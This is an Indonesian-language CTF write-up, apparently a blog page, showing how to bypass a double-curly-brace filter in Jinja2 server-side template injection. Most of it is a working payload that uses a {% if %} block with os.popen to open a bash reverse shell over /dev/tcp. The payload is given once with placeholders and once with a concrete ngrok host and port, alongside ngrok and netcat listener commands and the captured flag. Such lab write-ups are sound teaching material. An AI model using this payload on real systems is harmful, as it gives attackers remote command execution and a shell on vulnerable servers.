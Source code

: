 ```yaml
---
layout: page
title: "Server-Side Template Injection (SSTI) - Jinja2"
categories: ctf
---
```


<div class="post-categories">
  {% if post %}
    {% assign categories = post.categories %}
  {% else %}
    {% assign categories = page.categories %}
  {% endif %}
  <strong>Categories: </strong>
  {% for category in categories %}
  <a href="{{site.baseurl}}/categories/#{{category|slugize}}">{{category}}</a>
  {% unless forloop.last %}, {% endunless %}
  {% endfor %}
</div>

Pada blog ini, saya akan membagikan cara untuk bypass filtered input SSTI Jinja2 dengan requirements:

- Memungkinkan SSTI
- Double curly brackets atau dobel kurung kurawal \{\{ di filter

Jadi yang pertama kali saya lakukan, masuk ke halaman web yang memungkinkan untuk kita melakukan SSTI
![](/assets/img/Screenshot 2022-10-24 233937.png)

Selanjutnya gunakan payload berikut ini

```
{% raw %}
{% if(config.class.init.globals['os'].popen('bash -c "exec bash -i &>/dev/tcp/{ip_public}/port <&1"')) %}{% endif %}
{% endraw %}
```

Jadi, pada payload diatas, kita akan mengirimkan request yang bertujuan untuk mengirim shell target ke shell kita melalui ip public pada `/dev/tcp/{ip_public}/{port}`

Nah, jadi kalian bisa mengganti `{ip_public} ` dan `{port}` dengan service forward port gratis seperti netlify, ngrok, dan lainya.<br />

Jika kalian menggunakan ngrok, bisa gunakan perintah ini `ngrok tcp {listening_port}`
![](/assets/img/Screenshot 2022-10-25 001613.png)
<br /> `{listening_port}` akan kita gunakan untuk mendapatkan shell yang dikirim melalui domain dan port yang didapatkan dari ngrok, jangan lupa untuk gunakan perintah `nc -tlvp {listening_port}` untuk mendapatkan shell target. <br />

Berdasarkan gambar diatas, maka payload yang harus dimasukkan adalah

```
{% raw %}
{% if(config.class.init.globals['os'].popen('bash -c "exec bash -i &>/dev/tcp/0.tcp.ap.ngrok.io/18104 <&1"')) %}{% endif %}
{% endraw %}
```

![](/assets/img/Screenshot 2022-10-25 004110.png)

Dan didapatlah flagnya `BEECTF{3s_3s_t1_a1_Gg3Z_h3h3_g12l2bi30l}`
